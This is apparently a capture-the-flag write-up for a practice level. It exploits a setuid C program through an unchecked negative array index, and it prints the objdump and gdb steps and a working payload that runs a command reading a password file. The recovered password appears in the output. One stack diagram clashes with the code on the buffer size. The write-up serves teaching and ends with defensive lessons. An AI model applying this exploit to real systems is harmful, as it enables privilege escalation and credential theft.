 ## Level 3: validate user input and array boundaries

As before,
the password for the next level is in `/home/level03/.password`,
and a vulnerable setuid program with its source code is in `/levels/level03`.

Let's first play with the program to see what it does:
```
$ /levels/level03/level03
Usage: ./level03 INDEX STRING
Possible indices:
[0] to_upper    [1] to_lower
[2] capitalize  [3] length
$ /levels/level03/level03 0 hello
Uppercased string: HELLO
$ /levels/level03/level03 2 hello
Capitalized string: Hello
$ /levels/level03/level03 3 hello
Length of string 'hello': 5
```

It takes a string and runs some function on it depending on the index parameter.
Let's try to misuse this, for example with a negative index:
```
$ /levels/level03/level03 -1 x
Segmentation fault
```

Ouch. That can't be good.
Let's look at the relevant source code to see what happens to a negative index:
```
int main(int argc, char **argv) {
  int index;
  fn_ptr fns[NUM_FNS] = {&to_upper, &to_lower, &capitalize, &length};

  // Parse supplied index
  index = atoi(argv[1]);

  return truncate_and_call(fns, index, argv[2]);
}
```

The `main` method converts the index to an integer,
and calls `truncate_and_call` with 
an array of functions, the index, and the string argument.
Let's see this other function:
```
int truncate_and_call(fn_ptr *fns, int index, char *user_string) {
  char buf[64];
  // Truncate supplied string
  strncpy(buf, user_string, sizeof(buf) - 1);
  buf[sizeof(buf) - 1] = '\0';
  return fns[index](buf);
}
```

It truncates the string to 64 characters,
takes a function pointer from the `fns` array,
and calls it using the truncated buffer as parameter.

By applying pointer arithmetics,
a negative index will reference a memory location before the beginning of `fns`,
which happens to be on the stack.
The stack is a memory region to store local variables,
function parameters, return values, among others.
Roughly the following happens when `truncate_and_call` is called from `main`:

1. The function parameters are pushed on the stack in reverse order:
   the string, the index, the array of functions.

2. The pointer to the next instruction is pushed on the stack.

3. The function `truncate_and_call` is called.

4. The local variable `buf` is pushed on the stack.

When we reach the line of `fns[index](buf)`,
the content of the stack looks something like this:
```
0x0000      content of buf (1024 bytes)
0x0040+?    the return address
...
0x0040+X    content of fns (16 bytes) -->
0x0040+X        address of to_upper (4 bytes)
0x0040+X+4      address of to_lower
...
0x00??      content of index
0x00??      content of user_string
```

If index is 0-3,
the program will find the address of `to_upper`, `to_lower`, and so on,
and execute it.
Using a negative index,
the program will do the same with whatever it finds at that location.

Now,
if the content of `buf` is stored in the region before `fns`,
we can put there the address of another function,
and use the appropriate negative index to make the program execute it.
The unused `run` function that was careless left inside the program looks perfect for our purposes:
```
int run(const char *str) {
  // This function is now deprecated.
  return system(str);
}
```

It takes a string and calls `system`,
which in turn will run it in the shell.
Since we can control the parameter,
we can make the program run whatever we want.
We can find the address of `run` using `objdump`:
```
$ /levels/level03/level03 -1 x
$ objdump -d /levels/level03/level03 | grep run
0804879b <run>:
080487ae <truncate_and_call>:
 8048806:   74 05                   je     804880d <truncate_and_call+0x5f>
 80488f1:   e8 b8 fe ff ff          call   80487ae <truncate_and_call>
```

To find the right negative index,
we need to figure out the distance between `fns` and `buf` in the memory.
We can do that using `gdb`:
```
$ gdb /levels/level03/level03
(gdb) run -1 AAAAAAAA
Starting program: /levels/level03/level03 -1 AAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0xb77e1334 in ?? () from /lib/libc.so.6
```

That is,
we run the program with a negative index to make it crash,
and `AAAAAAAA` as the string to make it easy to spot when we inspect the memory content.
When the program crashes,
`gdb` outputs the address of the code it could not execute,
in this example `0xb77e1334`.
Let's see the first couple of bytes of the stack:
```
(gdb) x/60xw $sp      
0xbfae3d5c: 0xbfae3dd8  0x00000001  0x00000000  0x00000000
0xbfae3d6c: 0x41414141  0x41414141  0x00000000  0x00000000
0xbfae3d7c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d8c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d9c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3dac: 0xaf5a90a9  0x00000000  0x0000000a  0xbfae3df8
0xbfae3dbc: 0x080488f6  0xbfae3dd8  0xffffffff  0xbfae4e4b
0xbfae3dcc: 0x08048921  0xb7705f52  0xb77e1334  0x08048624
0xbfae3ddc: 0x08048680  0x080486dc  0x08048759  0x0000044e
```

The string `AAAAAAAA` is easy to spot,
now we know that `buf` starts at `0xbfae3d6c`.
And since `fns[-1]` contains `0xb77e1334`,
now we also know that `fns[0]` is at `0xbfae3dd8`.
Before we can calculate the correct negative index,
consider that we need to use `buf` for more than one purpose:

1. It should contain the address of the `run` method somewhere within.

2. It should start with shell command that
   reveals the content of the password file.

If, for example,
we put the command `cat /home/level03/.password;` in the string,
followed by the address of the `run` method,
the memory content will look something like this:
```
0xbfae3d6c:   c a t       / h o m     e / l e     v e l 0
0xbfae3d7c:   3 / . p     a s s w     o r d ;   0x0804879b
0xbfae3d8c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d9c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3dac: 0xaf5a90a9  0x00000000  0x0000000a  0xbfae3df8
0xbfae3dbc: 0x080488f6  0xbfae3dd8  0xffffffff  0xbfae4e4b
0xbfae3dcc: 0x08048921  0xb7705f52  0xb77e1334  0x08048624
```
The difference between `fns` and the jump address is `0xbfae3dd8 - 0xbfae3d88 = 80`,
and since the size of an element in `fns` is 4 bytes,
the index we're looking for is `-80 / 4 = -20`:
```
$ /levels/level03/level03 -20 "cat /home/level03/.password;$(printf '\x9b\x87\x04\x08')"
eingaima
cat: can't open '��': No such file or directory
```

### Lessons to learn

- When validating user input,
  remember to consider nonsense input too,
  like negative indexes in this example.
  This is also known as *fuzz testing*.

- Always check array boundaries:
  make sure they are not breached at either end.

- Remove unused, deprecated code,
  especially if it may be dangerous.

